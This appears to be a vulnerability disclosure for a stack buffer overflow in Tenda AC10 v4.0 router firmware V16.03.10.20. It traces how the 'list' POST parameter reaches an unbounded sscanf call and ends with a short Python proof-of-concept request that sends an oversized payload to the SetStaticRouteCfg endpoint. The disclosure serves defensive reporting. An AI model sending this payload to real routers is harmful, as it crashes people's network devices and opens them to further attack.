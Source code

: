 # Tenda AC10 v16.03.10.20 fromSetRouteStatic

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/material/show/103684

## Affected version

AC10 v4.0 V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.20 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `dest` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![1735808232041](F:\Desktop\工具\二进制漏洞\IoT\img\1735808232041.png)

In the `save_staticroute_data` function, the `a2` (the value of `list`) is passed to `v5` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `v13, v14, v15, v16`, it will cause a stack overflow.

![1735808527617](F:\Desktop\工具\二进制漏洞\IoT\img\1735808527617.png)

![1735808341956](F:\Desktop\工具\二进制漏洞\IoT\img\1735808341956.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

url = "http://192.168.1.100/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![1735808487726](F:\Desktop\工具\二进制漏洞\IoT\img\1735808487726.png)